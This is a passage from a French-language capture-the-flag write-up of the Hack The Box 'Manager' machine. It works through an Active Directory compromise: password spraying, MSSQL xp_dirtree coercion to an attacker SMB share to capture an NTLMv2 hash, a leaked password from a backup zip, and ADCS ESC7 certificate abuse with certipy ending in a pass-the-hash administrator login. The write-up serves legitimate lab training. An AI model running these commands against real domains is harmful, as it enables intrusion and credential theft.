[05:25:27] 200 -    5KB - /contact.html
[05:25:28] 301 -   146B - /css  ->  http://manager.htb/css/
[05:25:35] 301 -   149B - /images  ->  http://manager.htb/images/
[05:25:35] 403 -    1KB - /images/
[05:25:35] 200 -   18KB - /index.html
[05:25:37] 301 -   145B - /js  ->  http://manager.htb/js/
[05:25:37] 403 -    1KB - /js/
```


#### Énumération des sous-domaines

De même je ne trouve aucun sous-domaine.
```shell
╭─root@exegol-hackthebox /workspace/Manager
╰─➤  ffuf -u http://manager.htb -H "Host: FUZZ.manager.htb" -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -c -t 200 -fw 6791,1

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://manager.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
 :: Header           : Host: FUZZ.manager.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 6791,1
________________________________________________

:: Progress: [100000/100000] :: Job [1/1] :: 86 req/sec :: Duration: [0:11:17] :: Errors: 8 ::

```


## Shell en tant que Raven
### Password Spraying

Je génère un liste de mots de passe en ajoutant la valeur en minuscule de nom d'utilisateurs.
```
Administrator
administrator
Guest
guest
krbtgt
DC01$
dc01$
dc01
Zhong
zhong
Cheng
cheng
Ryan
ryan
Raven
raven
JinWoo
jinwoo
ChinHae
chinhae
Operator
operator
```


Je brute force et je trouve les identifiants `operator:operator`.
```shell
nxc smb dc01.manager.htb -u users.lst -p pass.lst --continue-on-success
```




Je vois que ce sont des identifiants valides de connexion à MSSQL.
```shell
nxc mssql dc01.manager.htb -u 'operator' -p 'operator'
```




### MSSQL - TCP 1433

Je me connecte donc avec le module `mssqlclient` de `Impacket`.
```shell
mssqlclient.py 'manager.htb/operator@dc01.manager.htb' -windows-auth
```




`operator` n'a pas les droits d'exécution de commandes à distance. Mais il peut énumérer les répertoires avec la commande `xp_dirtree`.



Donc j'utilise la commande suivante pour tenter d'accéder à un partage SMB fictif.
```shell
xp_dirtree //10.10.16.53/fakeshare
```




Ayant préalablement lancer un `responder` qui simulera plusieurs services, comme un partage SMB. Lorsque le serveur tente d'accéder au partage fictif, il se connecte avec les identifiants du compte de service MSSQL. J'obtiens alors le hash `NTLMv2` de l'utilisateur `manager`.
```shell
responder -I tun0
```




Je n'ai réussi à cracker ce hash. Mais l'idée d'utiliser le nom `manager` comme mot de passe s'est avérer être le bon choix vu qu'il s'agit du mot de passe de ce dernier.
```shell
nxc smb dc01.manager.htb -u 'manager' -p 'manager'
```




Je décide alors de jeter un coup d'œil au fichiers du système. Et dans le répertoire web de Windows (`C:\inetput\wwwroot`), je trouve un fichier backup à la racine du site web.
```shell
xp_dirtree C:\inetpub
xp_dirtree C:\inetpub\wwwroot
```




Je m'y rends, ce qui télécharge directement le fichier.



### Récupérer les identifiants de Raven

Je dézippe alors l'archive et un fichier me tape directement à l'œil.
```shell
unzip website-backup-27-07-23-old.zip
```




J'ouvre alors ce fichier et il contient les identifiants de l'utilisateur `Raven`.



`Raven` peut se connecter à distance à la machine.
```
nxc winrm dc01.manager.htb -u 'raven' -p 'R4v3nBe5tD3veloP3r!123'
```




### Evil-WinRM

Donc avec `evil-winrm`, j'obtiens un shell en tant que `Raven`.
```
evil-winrm -i dc01.manager.htb -u 'raven' -p 'R4v3nBe5tD3veloP3r!123'
```




## Shell en tant qu'administrateur
### Enumération des certificats

Je vois avec la commande `whoami /groups` que `Raven` est membre du groupe `Certificate Service DCOM Access`. Ce qui signifie qu'il peut énumérer les certificats du domaine.



Avec `certipy`, j'énumère les Templates vulnérables. Je ne pas de Template vulnérable. Mais je vois que c'est le certificat `manager-DC01-CA` qui est vulnérable à une `ESC7`.
```shell
certipy find -u 'raven' -p 'R4v3nBe5tD3veloP3r!123' -target 'dc01.manager.htb' -vulnerable -stdout
```




### ESC7

La, je me suis servit de cet article de [hackingarticles](https://www.hackingarticles.in/adcs-esc7-vulnerable-certificate-authority-access-control/), qui explique le chemin d'exploitation de cette vulnérabilité.
ESC7 exploite des **contrôles d'accès faibles sur l'Autorité de Certification (CA)** elle-même, contrairement à ESC6 qui cible des Templates mal configurés. L'attaque se base sur des permissions dangereuses accordées à des utilisateurs non privilégiés :
- **ManageCA** : contrôle administratif complet de la CA.
- **ManageCertificates** : approbation des demandes de certificats.

#### Ajout d'un Certificate Officer

Je dois d'abord m'ajouter comme `Certificate Officer`. Ceci donne le pouvoir d'approuver/émettre des certificats.
```shell
certipy ca -u "raven@manager.htb" -p 'R4v3nBe5tD3veloP3r!123' -dc-ip "10.129.4.152" -ca 'manager-DC01-CA' -add-officer 'raven'
```




#### Lister les Templates vulnérables

Ensuite je liste Templates vulnérables. Je vois aussi qu'ils sont tous déjà activés. Donc je peux passer à l'étape suivante.
```shell
certipy ca -u "raven@manager.htb" -p 'R4v3nBe5tD3veloP3r!123' -dc-ip "10.129.4.152" -ca 'manager-DC01-CA' -list-templates
```




#### Demande de certificat pour administrateur

Je demande alors un certificat pour `administrator@manager.htb`. Mais cela ne fonctionne pas car la requête est mise en attente (`Request ID is 32` dans mon cas).
```shell
certipy req -u "raven@manager.htb" -p 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target 'dc01.manager.htb' -template 'SubCA' -upn 'administrator@manager.htb' -dc-ip '10.129.4.152'
```




#### Approbation forcée de la demande

Je force l'approbation de la demande grâce aux droits `ManageCA`. Cela contourne les mécanismes de validation normaux.
```shell
certipy ca -ca manager-DC01-CA -issue-request 32 -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
```



#### Récupération du certificat

Je récupère alors le certificat qui est converti en `.pfx` avec la clé privée, permettant l’authentification en tant qu’admin.
```shell
certipy req -ca manager-DC01-CA -target dc01.manager.htb -retrieve 32 -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
```




#### Récupérer le hash de l'administrateur

Enfin je m'authentifie avec le certificat et je récupère le hash de l'administrateur.
```shell
certipy auth -pfx administrator.pfx -username 'administrator'
```




### Evil-WinRM

Je me connecte à la machine avec `evil-winrm` et je récupère le flag root.
```shell
evil-winrm -i dc01.manager.htb -u 'administrator' -H 'ae5064c2f62317332c88629e025924ef'
```


